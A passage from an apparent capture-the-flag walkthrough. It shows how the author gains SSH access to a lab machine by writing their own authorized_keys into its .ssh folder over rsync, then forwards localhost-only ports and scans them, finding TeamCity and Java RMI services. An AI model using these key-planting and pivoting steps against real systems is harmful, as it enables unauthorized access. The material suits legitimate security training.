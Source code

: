 Also, we can upload files, and we can leverage to gain a SSH connection.
## SSH - Connecting
Before proceed, I suggest getting a firm grasp about SSH connections, you are encouraged to review my SSH notes here [[Notes/SSH#Method 1\|SSH#Method 1]], I am trying the method 1.
I will try to copy the `authorized_keys` from my machine to the `.ssh` folder on the target machine.
```shell
rsync -av /home/kali/.ssh/test/authorized_keys rsync://rsync-connect@10.10.137.165/files/sys-internal/.ssh
```
![Pasted image 20241121150153.png|800](/img/user/attachments/Pasted%20image%2020241121150153.png)
Now, we can connect without introduce the password of `sys-internal`.
```shell
ssh sys-internal@10.10.137.165
```
![Pasted image 20241121153340.png](/img/user/attachments/Pasted%20image%2020241121153340.png)

> [!info]- Important
>  At this point, we could escalate to root via [[CVE-2021-4034\|CVE-2021-4034]], but I'm going to continue on the machine's intended path.
## SSH - Port forwarding
According to the information obtained from local enumeration, we know that the system is running services only readable by the localhost.
![Pasted image 20241121155411.png](/img/user/attachments/Pasted%20image%2020241121155411.png)
53 is assigned to DNS, 631 is assigned to the CUPS so we are interested on the three left.
We can do it for all of them (3)
E.g. For the 55401
```shell
ssh sys-internal@10.10.137.165 -L 55401:127.0.0.1:55401
```
## Enumeration
After mount the 3 services
Enumerate it
```shell
sudo nmap 127.0.0.1 -sCV -p 55401,8105,8111
```
The results:
```c
PORT      STATE SERVICE     VERSION
8105/tcp  open  unknown
8111/tcp  open  skynetflow?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 401
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
55401/tcp open  java-rmi    Java RMI
| rmi-dumpregistry:
|   teamcity-mavenServer
|      implements jetbrains.buildServer.maven.remote.MavenServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @127.0.0.1:40065
```
### Port 8111 TeamCity
Both, the port 8111 and 55401 are related to TeamCity.